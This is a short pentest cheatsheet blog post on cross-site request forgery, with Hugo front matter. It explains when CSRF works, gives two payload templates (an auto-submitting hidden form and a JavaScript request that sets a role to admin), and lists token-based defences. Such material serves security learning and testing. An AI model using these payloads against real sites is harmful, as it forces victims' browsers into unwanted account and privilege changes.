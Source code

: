 ```yaml
---
title: "CSRF attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "CSRF cheatsheet"

tags: ["web", "penetest", "csrf"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site request forgery

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This attack can happend by phishing, clone site, etc ... Conditions have to be present for this attack  to be perform : 

-   **A relevant action.** : Change password, email, rights, ...
-   **Cookie-based session handling.** : Website with cookie base for sessions are an incredible candidate for this type of attack
-   **No unpredictable request parameters.** Every element should be known or obtainable to be able to forge the request

Here is a schema to check for CSRF from PATT:

![alt CSRF_Detection](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)


## Some examples

- No defenses
    {{< highlight html "lineNos=false" >}}
<form method="$method" action="$url">  
    <input type="hidden" name="$param1name" value="$param1value">  
</form>  
<script>  
    document.forms\[0\].submit();  
</script>
    {{< /highlight >}}

- JSon and JS combined

    {{< highlight javascript "lineNos=false" >}}
<script>
var xhr \= new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
    {{< /highlight >}}

## How to prevent them 

-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.